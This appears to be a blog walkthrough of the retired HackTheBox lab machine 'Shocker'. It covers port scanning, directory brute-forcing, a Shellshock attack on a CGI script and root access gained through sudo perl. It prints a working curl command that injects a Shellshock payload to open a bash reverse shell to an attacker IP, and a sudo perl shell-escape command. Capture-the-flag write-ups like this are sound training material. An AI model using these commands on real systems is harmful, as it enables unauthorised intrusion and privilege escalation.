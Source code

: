 ```yaml
---
title: Shocker - HackTheBox Walkthrough
author: Degr4ne
date: 2021-10-06 12:00:00 
categories: [HackTheBox,Linux]
tags: [shellshock,sudo]
math: false
mermaid: false
image:
  src: /assets/img/HTB/Shocker/00-banner.png
  width: 589
  height: 372
---
```

Hello guys, welcome back with another walkthrough, this time we'll be doing `Shocker` a retired machine by HackTheBox. Without further ado, let’s begin.

# Recon

## Nmap

As always, we'll start with a nmap scan to discover the open ports and services.

![01-nmap](/assets/img/HTB/Shocker/01-nmap.png)

The ports 80 and 2222 are open.

## Port 80

Let's see the web.

![02-webpage](/assets/img/HTB/Shocker/02-webpage.png)

The web page not give us much information, therefore, we’ll run gobuster to find any accessible directory.

![03-gobuster](/assets/img/HTB/Shocker/03-gobuster.png)

# Initial Foothold

We see in the screenshot above the `/cgi-bin/` directory, when I always see this directory comes to my mind the  `Shellshock` attack.
Running gobuster again to know the file and his extension.

![04-gobuster](/assets/img/HTB/Shocker/04-gobuster.png)

With a listening port and executing the command below, we can get a reverse shell.

```console
$ curl -H "User-Agent: () { :;}; echo; /bin/bash -i >& /dev/tcp/10.10.14.31/443 0>&1" http://10.129.230.133/cgi-bin/user.sh
```

![05-shellshock](/assets/img/HTB/Shocker/05-shellshock.png)

# Privilage Escalation

As we see in the screenshot below,  we can execute `perl` like root without password.

```console
$ sudo /usr/bin/perl -e 'exec "/bin/sh";'
```

![06-sudo](/assets/img/HTB/Shocker/06-sudo.png)

We are root!!!
That’s it for now guys. Until next time.
